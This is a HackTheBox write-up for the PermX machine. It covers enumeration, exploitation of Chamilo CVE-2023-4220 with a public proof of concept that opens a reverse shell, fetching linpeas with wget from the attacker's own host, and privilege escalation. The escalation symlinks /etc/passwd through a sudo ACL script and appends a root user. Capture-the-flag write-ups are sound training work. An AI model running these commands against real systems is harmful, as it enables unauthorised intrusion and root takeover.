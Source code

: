 ```yaml
---
title: PermX - HackTheBox Write-Up
date: 2024-09-28
description: A write-up on the machine PermX.
author: PrintN
media_subpath: /assets/blog/permx-hackthebox/
image:
  path: 0.webp
categories: [Write-ups, HackTheBox]
tags: [Privilege Escalation]
render_with_liquid: false
---
```

![Image 0](0.webp)
## Introduction
Hello👋 Today we're going to take a look at [PermX](https://www.hackthebox.com/machines/permx) machine on HackTheBox by mtzsec. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] permx.htb
```

## Enumeration
We'll start by scanning for open ports with Nmap.
![Screenshot 1](1.webp)

We get port 80 and 22, which means there is a website running. There is nothing much of interest on the homepage.
![Screenshot 2](2.webp)

So let's try to see if there are any interesting directories, we'll use Gobuster for that.
```bash
gobuster dir -u http://permx.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![Screenshot 3](3.webp)

Hmmm. Let's try to find some subdomains with ffuf.
```bash
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fw 18
```
![Screenshot 4](4.webp)

And we got something. Let's try checking ```lms.permx.htb``` out. Remember to first add it to our ```/etc/hosts```.
![Screenshot 5](5.webp)

## Getting Access
We now know that the website uses Chamilo. Let's try do a quick search on any exploits on Chamilo. And we find **CVE-2023-4220** and a exploit script:

[https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)
```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
cd chamilo-lms-unauthenticated-big-upload-rce-poc
pip install -r requirements.txt
```
Set up a listener with ```nc -lvnp 443``` and then we can run the main.py.
```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
![Screenshot 6](6.webp)
![Screenshot 7](7.webp)

And we get a shell! Now we want to run [linpeas](https://github.com/peass-ng/PEASS-ng/releases) to find any vulnerbilities, so let's start a http server with python on our attacker machine.
```bash 
python -m http.server
```
In our shell we run.
```bash
wget http://10.10.14.34:8000/linpeas.sh
```
![Screenshot 8](8.webp)
![Screenshot 9](9.webp)

We get a password from the configuration.php. Now we only need the username to be able to ssh. Which we see is ```mtz``` by going to the home directory.

![Screenshot 10](10.webp)

Let's ssh into ```mtz``` with the password ```03F6lY3uXAP2bkW8```
![Screenshot 11](11.webp)

And we get our first flag!

![Screenshot 12](12.webp)

## Privilege Escalation
We start by running ```sudo -l``` and we se that we can run ```/opt/acl.sh``` as root.
![Screenshot 13](13.webp)
Let's take a look at ```/opt/acl.sh```.
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This script lets the user ```mtz``` change file permissions for any user, but only for files in the ```/home/mtz``` directory. It also blocks us from using path traversal.

What we can do is make a symlink to the ```/etc/passwd``` inside the ```/home/mtz``` and then add a privileged user.

So we first have to generate a password hash.

![Screenshot 14](14.webp)
```bash
mkdir /tmp
cd /tmp
ln -s /etc/passwd passwd
sudo /opt/acl.sh mtz rwx /home/mtz/tmp/passwd
echo 'printn:$1$IeeL.gZ3$gs5hdreEStMsIs6wN.lVn0:0:0:root:/root:/bin/bash' >> /home/mtz/tmp/passwd
```
After running the commands above our user should now be added to the ```/etc/passwd```. Now we can just ```su printn``` with the password ```printn```.

And we get root. We can now get the last flag 🥳 

![Screenshot 15](15.webp)